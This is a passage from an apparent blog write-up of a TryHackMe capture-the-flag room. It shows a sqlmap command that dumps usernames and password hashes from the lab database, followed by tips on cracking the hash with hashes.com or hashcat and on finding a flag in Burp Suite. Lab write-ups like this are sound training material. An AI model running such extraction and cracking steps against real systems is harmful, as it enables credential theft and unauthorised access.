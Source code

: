```bash
+----------+-------------+
| Easter_4 | varchar(30) |
+----------+-------------+

```

- Ok, now let's look inside *password & username*, to look at that columnn I used this command ```python3 sqlmap.py  --dbs -r /Users/vipin/tech/CTFs/TryHackMe/ctfcolvol2/req2.txt -D THM_f0und_m3 -t user -C username,password --sql-query 'SELECT username,password FROM user'``` and below is the output

```bash

[*] DesKel, 05f3672ba34409136aa71b8d00070d1b
[*] Skidy, He is a nice guy, say hello for me

```

- Looks like we are PWD cracking 😁

![Image showing me cracking the password with hashes.com](blog/ctfcollectionvol2pics/hashctf1.png 'Fig.7')
<div style={{ textAlign: 'center' }}>
  <small>Fig.7</small>
</div>
- **Tip: Before cracking with hashcat, always check [hashes.com](https://hashes.com/en/decrypt/hash) to see if they can crack it**

- Entering the password in the login page gives us the flag.

## 🐤 Easter 6

- Looking in Burpsuite on the homepage shows us the flag.

![Image showing me finding the flag in burpsuite](blog/ctfcollectionvol2pics/easteregg6.png 'Fig.8')
<div style={{ textAlign: 'center' }}>
  <small>Fig.8</small>
</div>
- That was easy 🤷🏾‍♂️
